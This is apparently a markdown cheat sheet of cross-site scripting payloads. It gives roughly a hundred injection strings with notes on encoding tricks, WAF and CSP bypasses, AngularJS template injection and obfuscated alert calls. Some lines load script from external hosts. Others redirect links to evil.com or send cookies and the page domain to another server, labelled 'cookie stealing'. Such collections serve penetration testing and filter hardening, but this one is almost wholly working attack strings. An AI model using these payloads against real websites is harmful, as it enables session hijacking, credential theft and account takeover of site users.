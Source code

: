 %u003Cscript%u003Eprompt%u0028303%u0029%u003C/script%u003E                       For ASP Encoding
%253Cscript%253Ealert(1)%253C%252Fscript%253E                                       double url enc
\<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>    XML Reflectionxss
"onauxclick=alert(1);//
javascript://%250aalert(1)									  where :// is required after protocol
"\">\<s>test"@gmail.com															   XSS in email id
javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));
\<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));\</script>
<imG/sRc=l oNerrOr=(prompt)() x>
"><script src=https://a007.xss.ht></script>											Blind 
<body onpageshow=alert(1)>
<style onload=alert(1)>
<marquee behavior="alternate" onstart=alert(1)>hack the planet</marquee>
<d3"<"/onclick="1>[confirm``]"<">z
&lt;script&gt;confirm(1)&lt;/script&gt;                                              HTML Encoding
“=””’></><script></script><svg onload=alert(1)>
<script>var xss = '';f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+': '+e[n].value)}}};//'';</script>    GET Hidden Fields
<table><thead style=font-size:100px onmouseover=prompt(1)><td>XSS
<svg/x=">"/onload=confirm()//
<sCript x>(((confirm)))``</scRipt x>
<svg </onload ="1> (_=prompt,_(1)) "">
<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>
<w="/x="y>"/ondblclick=`<`[confir\u006d``]>XXS
"><script/x>alert(1)</script/x>
<w="/x="y>"/ondblclick=`<`[confir\u006d``]>click
"><!--<iMg sRc=--><img src=x oNERror=(prompt)`1` x>"
"><deTails oNToggle=confi\u0072m(1)>"
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//127.0.0.1:8080");a.send();</script>   			   Get response back to server
<A/iD=x hREf=jav&#x09;ascript:prom&#x09;pt(doc&#x09;ument.coo&#x09;kie); id=x>XSS
data:,alert(1)
\'-alert(1)//
'}alert(1);{'
'}alert(1)%0A{'
\'}alert(1);{//
"><script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>                                          (CSP bypass if http://ajax.googleapis.com is whitelisted)
"><embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1337)}//' allowscriptaccess=always>   (CSP bypass if http://ajax.googleapis.com is whitelisted)
<script src=data:,alert(1)>                                   when closing script tag is somewere 
<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>               xss in xml page
<x:script xmlns:x="http://www.w3.org/1999/xhtml" src="//brutelogic.com.br/1.js"/>
{{constructor.constructor('alert(1)')()}} 
<x ng-app>{{constructor.constructor('alert(1)')()}}   			                        angular JS
<SCRIPT SRC=//BRUTELOGIC.COM.BR/1></SCRIPT>                                             upper case
<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>                                                upper case
data:text/html,<svg onload=alert(1)>
<a/href=//0> shortest link injection
"\"><sCriPt sRc=//14.rs>"
<k onsubmit=alert(1)>                                                              before form tag
<k oninput=alert(1)>
foobar"/%0D<body='X' onmouseover=setInterval`alert\x28&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;\x29`//
<script ~~~>confirm(1)</script ~~~>
  <svg/onload=alert(cookie)>
window+=valueOf=alert(1)
[][`filter`][`constructor`](`ale`.concat(`rt\x28`.concat`0\x29`))();//
<script>([_,_____,_,_,__,___]=(__=[])+{___:__},[______,_,________,____,,_________,_______,__,,,__________]=[!!_____]+!_____+_____._____)[___+=_____+__________+__+______+_+________+___+______+_____+_][___](_________+_______+____+_+______+'(-~_____)')(__)</script>
<script>([,?,,,,??]=[]+{},[???,????,?????,??????,,???????,????????,?????????,,,??????????]=[!!?]+!?+?.?)[??+=?+??????????+?????????+???+????+?????+??+???+?+????][??](???????+????????+??????+????+???+'`1`')``</script>
"><svG oNLoad=confirm&#x28;1&#x29>   									when () and `` not working
<script>this[Object["keys"](this)[6]](1)</script>
<svgonload=alert(1)>		
<xss/ondblclick=[cookie].some(alert)>XSS													   	  space bypass
accesskey="X" onclick="alert(1)"													  Hidden Field
<svg/onload=t=/aler/.source+/t/.source;window.onerror=window[t];throw+1;//
<script>onerror=alert;throw document.domain;</script>  
javascript:void(a='//127.0.0.1');void(b=document.domain);void(c=a.concat(b));void(window.location.assign(c));                                               Cookie stealing with javascript protocol
<base href=//evil.com>     										change all hyper link to evil.com
<x onpointerenter=alert()>XSS		                                       onmouseover alternative
-alert(1)//\       (quoteless xss inside js context when param is refelcting 2 times in same line)
<html ontouchstart=alert(1)>XSS          										Mobile browser XSS
<h1/ondrag=confirm(1)>DragMe</h1>
<svg onload=setInterval`alert\x28document.domain\x29`>
[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162']('\141\154\145\162\164\50\61\51')() 										   				          Alert alternatives
(alert)(1)
a=alert,a(1)	
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top['al\145rt'](1)
top[8680439..toString(30)](1)
<svg/onload=innerHTML=location.hash> #<img/src/onerror=alert(1)>
'"</Script><Html /Onmouseover=(alert)(1) //
<svg onload=alert&lpar;1&rpar;>
<svg onload=alert&#x28;1&#x29>
<svg onload=alert&#40;1&#41>
<svg onload=setInterval`alert\x28document.domain\x29`>
"><input type="submit" formaction="javascript&colon;this&lsqb;'a'&plus;'lert'&rsqb;`1`">
<body onpageshow=alert(1)>
<body onfocus=alert(1)>
" onfocus=alert(1) autofocus													auto trigger
<marquee/onstart=alert()>
<object data=javascript:alert(1)>
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
%253cscript%253ealert(document.cookie)%253c/script%253e
<audio/onloadstart=alert(1) src>
%u0025%u0075%u0066%u0066%u0031%u0063%u0073%u0063%u0072%u0069%u0070%u0074%u0025%u0075%u0066%u0066%u0031%u0065%u0061%u006c%u0065%u0072%u0074%u0028%u0018%u0058%u0053%u0053%u0019%u0029%u003b%u0025%u0075%u0066%u0066%u0031%u0063%u002f%u0073%u0063%u0072%u0069%u0070%u0074%u0025%u0075%u0066%u0066%u0031%u0065
%uff1cscript%uff1ealert(1);%uff1c/script%uff1e					
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>                            akamai ghost wafbypass
------------------------------------------------------------------------------------------------
Events :
onxxxx
onauxclick
ondblclick
oncontextmenu
onpageshow
onpointerenter
onloadstart
ontouchstart

Reference 
https://research.digitalinterruption.com/2018/12/18/a-deeper-look-into-xss-payloads/

